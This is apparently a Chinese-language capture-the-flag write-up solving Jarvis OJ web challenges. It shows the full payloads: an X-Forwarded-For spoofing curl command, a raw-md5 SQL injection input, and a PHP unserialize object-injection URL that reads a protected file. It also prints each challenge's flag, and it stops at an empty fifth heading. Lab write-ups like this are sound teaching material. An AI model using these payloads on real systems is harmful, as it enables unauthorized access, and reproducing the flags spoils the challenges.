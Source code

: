 ### 0x00 PORT51
#### 题目
> 题目链接：http://web.jarvisoj.com:32770/

#### 思路
访问看到Please use port 51 to visit this site.

看前端代码没有发现问题

```
$ sudo curl web.jarvisoj.com:32770 --local-port 51
<!DOCTYPE html>
<html>
<head>
<title>Web 100</title>
<style type="text/css">
	body {
		background:gray;
		text-align:center;
	}
</style>
</head>

<body>
	<h3>Yeah!! Here's your flag:PCTF{M45t3r_oF_CuRl}</h3>
</body>
</html>
```

访问了多次，会返回两种结果，其中一种有flag，其他题目也有这个问题，多访问几次一般会flag的

#### flag
PCTF{M45t3r_oF_CuRl}


### 0x01 LOCALHOST
#### 题目
> 题目入口：http://web.jarvisoj.com:32774/

#### 思路
访问看到前端写了localhost access only!!

前端没有看到有用信息

```
$ curl http://web.jarvisoj.com:32774/ -H "X-FORWARDED-FOR:127.0.0.1"
<!DOCTYPE html>
<html>
<head>
<title>Web 150</title>
<style type="text/css">
	body {
		background:gray;
		text-align:center;
	}
</style>
</head>

<body>
	<h3>Yeah!! Here's your flag:PCTF{X_F0rw4rd_F0R_is_not_s3cuRe}</h3>
</body>
</html>
```

#### flag
PCTF{X_F0rw4rd_F0R_is_not_s3cuRe}

### 0x02 Login
#### 题目
> 需要密码才能获得flag哦。
> 题目链接：http://web.jarvisoj.com:32772/

#### 思路
访问就一个输入密码的表单，页面源码没有发现，在头部发现Hint头部`Hint: "select * from `admin` where password='".md5($pass,true)."'"`

想着估计是SQL注入，注入`1' OR 1=1 -- `没有成功

看到pass被md5过，感觉可能是不行的，除非md5后变成SQL注入的语句？

看别人writeup，php中`md5(string, raw)`，若`raw=true`，则返回的二进制转成ascii的数据

google搜索`sql injection php md5`发现了

```
content: 129581926211651571912466741651878684928
count:   18933549
hex:     06da5430449f8f6f23dfc1276f722738
raw:     ?T0D??o#??'or'8.N=?
```

#### flag
PCTF{R4w_md5_is_d4ng3rous}


### 0x03 神盾局的密码
#### 题目
> 这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？
> 题目入口：http://web.jarvisoj.com:32768/

#### 思路
访问看到图片，chrome开发者工具显示`/showimg.php?img=md值`，这里burp抓包的话会默认去掉图片看不到包

修改md5值为任意，可以看到返回
```
<br />
<b>Warning</b>:  readfile(showing.php): failed to open stream: No such file or directory in <b>/opt/lampp/htdocs/showimg.php</b> on line <b>7</b><br />
```

尝试把md5改成`/opt/lampp/htdocs/showimg.php`的md5，File not found!，改成`showimg.php`的md5

```
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

一开始觉得是不是要绕过编码，造成任意文件读取，没成功，网上看是要看`index.php`，把md5改成`index.php`的md5

```
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

再查看把md5改成`shield.php`的md5

```
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```

可以知道flag在`pctf.php`，但是pctf被检测了，`index.php`中有对class参数对反序列化处理，反序列话Shield类，所以序列话一个Shield类
```
<?php
class Shield {
        public $file;
        function __construct($filename = '') {
            $this -> file = $filename;
        }
    }
    $x = new Shield("pctf.php");
    echo serialize($x);
?>
```

得到`O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`

访问`http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}`

```
<?php 
	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
	//Fake flag:
	echo "FLAG: PCTF{I_4m_not_fl4g}"
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

这个True和False的Flag不知道哪里触发，页面不会显示出来

#### flag
PCTF{W3lcome_To_Shi3ld_secret_Ar3a}


### 0x04 IN A Mess

